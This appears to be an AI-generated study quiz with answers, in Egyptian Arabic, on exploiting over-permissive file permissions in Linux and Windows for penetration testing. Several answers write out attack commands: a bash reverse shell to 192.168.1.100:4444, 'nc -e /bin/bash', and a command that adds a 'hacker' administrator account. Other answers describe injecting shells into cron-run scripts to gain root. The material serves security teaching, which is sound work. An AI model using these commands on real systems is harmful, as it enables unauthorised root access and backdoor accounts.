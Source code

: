 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، مع زيادة أسئلة الفهم العميق المبنية على سيناريوهات واقعية تفيدك كـ Web Pentester، وفي جزء الخلاصة السؤال هيكون "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. Over-permissive File Permissions يعني إن الملفات عندها صلاحيات ______ أكتر من اللازم.  
   **مفتوحة**

2. في لينكس، صلاحيات `chmod 777` تعني إن ______ يقدر يعمل أي حاجة في الملف.  
   **الكل**

3. في ويندوز، إعطاء "Full Control" لـ ______ يعني أي مستخدم يقدر يعدل الملف.  
   **Everyone**

4. أداة ______ بتستخدمها في لينكس عشان تبحث عن ملفات بصلاحيات 777.  
   **find**

5. لو عدلت ملف بصلاحيات 777 في لينكس، ممكن تضيف ______ عشان تاخد shell.  
   **أمر**

---

### **أسئلة صح وغلط**
6. صلاحيات 777 في لينكس تعني إن المالك بس يقدر ينفذ الملف. (صح/غلط)  
   **غلط** - تعني الكل يقدر ينفذه.

7. Over-permissive File Permissions بتساعد في تصعيد الصلاحيات في الـ Pentesting. (صح/غلط)  
   **صح**

8. في ويندوز، `Everyone:(F)` يعني إن الضيوف ما يقدروش يعدلوا الملف. (صح/غلط)  
   **غلط** - يعني الكل يقدر يعدل.

9. أمر `ls -l` في ويندوز بيوريك صلاحيات الملفات. (صح/غلط)  
   **غلط** - بيستخدم في لينكس مش ويندوز.

10. لو لقيت ملف بصلاحيات مفتوحة، تقدر تستخدمه عشان تسرق بيانات حساسة. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه معنى الرقم 7 في `chmod 777` في لينكس؟  
    أ) قراءة فقط  
    ب) كتابة فقط  
    ج) قراءة، كتابة، تنفيذ  
    د) تنفيذ فقط  
    **ج) قراءة، كتابة، تنفيذ**

12. إيه الأداة اللي بتستخدمها في ويندوز عشان تفحص صلاحيات الملفات؟  
    أ) ls  
    ب) icacls  
    ج) find  
    د) dir  
    **ب) icacls**

13. إيه اللي ممكن تعمله لو لقيت ملف بصلاحيات مفتوحة؟  
    أ) تعديله  
    ب) تنفيذه  
    ج) قراءته  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه اللي بيخلّي Over-permissive Permissions خطيرة؟  
    أ) بتسمح بتصعيد الصلاحيات  
    ب) بتحمي الملفات  
    ج) بتغلق الوصول  
    د) بتمنع التعديل  
    **أ) بتسمح بتصعيد الصلاحيات**

15. إيه الأمر اللي بيوريك هويتك في لينكس بعد ما تاخد Shell؟  
    أ) whoami  
    ب) id  
    ج) icacls  
    د) net user  
    **ب) id**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه Over-permissive File Permissions بتعتبر ثغرة أمنية؟  
    **لأنها بتسمح لأي مستخدم يقرأ أو يعدل أو ينفذ ملفات بدون قيود.**

17. ليه صلاحيات 777 في لينكس بتفتح الباب للمهاجم؟  
    **لأنها بتدي الكل صلاحية كاملة على الملف، فالمهاجم يقدر يستغله بسهولة.**

18. ليه "Everyone" في ويندوز بيكون خطير لو معمول Full Control؟  
    **لأنه بيسمح لأي حد حتى الضيوف يتحكموا في الملف ويعملوا أي حاجة.**

19. ليه الـ Pentester بيدور على ملفات بصلاحيات مفتوحة؟  
    **عشان يستغلها في تصعيد الصلاحيات أو تنفيذ أوامر بسهولة.**

20. ليه تعديل ملف بصلاحيات 777 بيقدر يديك shell كـ root؟  
    **لأنه لو بيتعمل بصلاحيات عالية زي Cron Job، التعديل بيديك تحكم كامل.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين Over-permissive Permissions وتصعيد الصلاحيات؟  
    **الملفات المفتوحة بتسمح للمهاجم يعدلها أو ينفذها عشان ياخد صلاحيات أعلى.**

22. إيه العلاقة بين صلاحيات 777 وتنفيذ الأوامر؟  
    **بتسمح لأي حد ينفذ الملف، فتقدر تضيف أمر زي shell وتشغله.**

23. إزاي "Everyone" في ويندوز بيساعدك تتحكم في النظام؟  
    **بتديك وصول كامل لتعديل أو تنفيذ ملفات حساسة تفتح الباب للتحكم.**

24. إزاي أمر `find / -perm -777` بيساعدك كـ Pentester؟  
    **بيجيبلك كل الملفات المفتوحة اللي ممكن تستغلها في الهجوم.**

25. إيه الرابط بين تعديل ملف بصلاحيات مفتوحة وCron Jobs؟  
    **لو الملف بيتعمل تلقائيًا بصلاحيات root، تعديله بيديك shell كـ root.**

---

### **أسئلة للفهم (عميقة من سيناريوهات واقعية لـ Web Pentesting)**
26. لو كنت بتختبر موقع تسوق أونلاين ولقيت ملف `/var/www/html/script.sh` بصلاحيات 777، إزاي تستغله؟  
    **بتعدله تضيف أمر shell زي `nc -e /bin/bash` وتنتظر Cron Job يشغله عشان تاخد وصول.**

27. تخيل إنك بتختبر موقع بنك ولقيت `C:\Scripts\bank.exe` بصلاحيات Everyone، إيه خطتك كـ Pentester؟  
    **بتعدله تضيف أمر زي `net user` تضيف حساب أدمن، تنفذه، وتتحكم في النظام.**

28. لو كنت بتختبر منصة تعليمية ولقيت `/usr/local/bin/update.sh` بصلاحيات 777 بيتعمل تلقائيًا، إزاي تتصرف؟  
    **بتكتب فيه أمر shell تفاعلي، تنتظر التنفيذ، وتاخد root shell.**

29. لو موقع حكومي لقيت فيه ملف `/etc/config` بصلاحيات 777، إزاي تثبت الخطر للعميل؟  
    **بتعدله تضيف كود يسرق بيانات، توري إنك قدرت تتحكم في الملفات الحساسة.**

30. تخيل إنك بتختبر شركة شحن ولقيت `C:\Logs\log.bat` بصلاحيات Everyone، إيه اللي هتعمله؟  
    **بتغير الملف تضيف أمر زي `net localgroup administrators` وتصعد صلاحياتك.**

31. لو كنت بتختبر تطبيق طبي ولقيت `/usr/bin/backup.sh` بصلاحيات 777، إزاي تحول ده لـ shell؟  
    **بتكتب فيه أمر زي `/bin/bash -i`، تنتظر تنفيذه، وتاخد وصول كامل.**

32. لو موقع دفع أونلاين لقيت فيه ملف `C:\Payments\process.exe` بصلاحيات Everyone، إزاي تستغله؟  
    **بتعدله تضيف أمر يضيف مستخدم جديد، تنفذه، وتثبت إنك قدرت تتحكم.**

33. تخيل إنك بتختبر موقع سفر ولقيت `/var/www/html/run.sh` بصلاحيات 777، إزاي تثبت خطورته؟  
    **بتضيف أمر shell، تشغله أو تنتظر Cron، وتوري إنك وصلت لـ root.**

34. لو كنت بتختبر منصة عقارية ولقيت `C:\Scripts\update.bat` بصلاحيات Everyone، إيه خطوتك؟  
    **بتعدله تضيف أمر زي `whoami`، تنفذه، وتثبت إنك تقدر تصعد لأدمن.**

35. لو موقع بيع تذاكر لقيت `/usr/local/bin/ticket.sh` بصلاحيات 777 بيتعمل كـ root، إزاي تستفيد؟  
    **بتكتب أمر shell، تنتظر التنفيذ التلقائي، وتاخد shell كـ root تسرق بيانات.**

---

### **أسئلة كتابة كود**
36. اكتب أمر في لينكس عشان تفحص صلاحيات ملف معين.  
    **ls -l /path/to/file**

37. اكتب أمر في ويندوز عشان تشوف صلاحيات ملف.  
    **icacls "C:\path\to\file"**

38. اكتب أمر في لينكس عشان تبحث عن ملفات بصلاحيات 777.  
    **find / -perm -777**

39. اكتب كود تضيفه في ملف 777 في لينكس عشان تاخد shell تفاعلي.  
    **/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1**

40. اكتب أمر في ويندوز تضيفه في ملف Everyone عشان تضيف أدمن جديد.  
    **net localgroup administrators hacker /add**

---

### **أسئلة الخلاصة**
41. قولي الخلاصة بتاعت الجزء الأول ("إيه هي Over-permissive File Permissions؟").  
    **"يعني زي ما تكون سايب باب بيتك مفتوح وكاتب على الدولاب: خد اللي عايزه! في لينكس 777 يعني الكل يلعب في الملف، وفي ويندوز Everyone يعني حتى الجيران يقدروا يخشوا يغيروا حاجات."**

42. قولي الخلاصة بتاعت الجزء التاني ("ليه دي مشكلة كبيرة؟").  
    **"المشكلة إنك لما تسيب حاجتك مفتوحة كده، أي حد يقدر يخش يلعب فيها. زي ما تكون سايب فلوسك في الشارع وكاتب عليها: خدها! المهاجم بيلاقي الكنز ده ويستخدمه عشان يبقى الكبير."**

43. قولي الخلاصة بتاعت الجزء التالت ("إزاي نستغلها في الهجمات؟").  
    **"لما تلاقي حاجة مفتوحة كده، زي ما تكون لقيت باب مخزن مفتوح، تدخل تاخد اللي عايزه وتطلع الكبير بتاع الحتة!"**

44. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون لقيت كنز في بيت مفتوح، غيرت فيه حاجة صغيرة، وفجأة بقيت الكبير بتاع العمارة! الصلاحيات المفتوحة دي طريقك للفوز في اللعبة."**

45. قولي الخلاصة النهائية بتاعت النص كله.  
    **"Over-permissive File Permissions (زي 777 في لينكس أو Everyone في ويندوز) هي ثغرة كبيرة بتخلّي أي حد يقدر يلعب في الملفات. في الـ Pentesting، دور عليها، استغلها عشان تاخد shell أو تصعد صلاحياتك، وورّي العميل إن النظام بتاعه زي بيت مفتوح لأي حد! بالأدوات زي `find` و`icacls`، تقدر تكتشفها وتستخدمها عشان تبقى البطل بتاع الساحة!"**

---

كده الأسئلة مغطية النص كامل، مع زيادة في أسئلة الفهم العميق (من 26 لـ 35) مبنية على سيناريوهات واقعية زي مواقع تسوق، بنوك، تطبيقات طبية، وشركات شحن، عشان تفيدك كـ Web Pentester. لو عايز أي زيادة أو تعديل، قول لي!